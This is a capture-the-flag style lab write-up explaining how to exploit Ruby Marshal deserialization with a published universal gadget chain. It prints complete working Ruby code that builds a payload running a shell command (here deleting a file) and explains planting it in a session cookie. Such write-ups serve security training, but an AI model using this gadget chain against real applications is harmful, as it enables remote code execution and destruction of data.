




# Exploiting Ruby deserialization using a documented gadget chain

## Lab Description :


## Solution :
Login to the site as wiener using the credentials provided.



Good read - ``https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html``

We can use the exploit code for** universal gadget chain in Ruby 2.x-3.x** mentioned from the above blog post. Just that we need to tweak the exploit according to our requirements.
```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
# Set the variable value to delete the file in carlos directory.
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
## Add the below line to base64 encode the payload
puts Base64.encode64(payload)
```

Compile the code to get the malicious cookie payload.

Ruby 2.x compiler - ``https://domsignal.com/ruby-online-compiler``



URL - encode the cookie value obtained & replace it in the cookie part.

Upon refreshing the page, we see that the server throws a 500 Server Error & also the lab is solved.



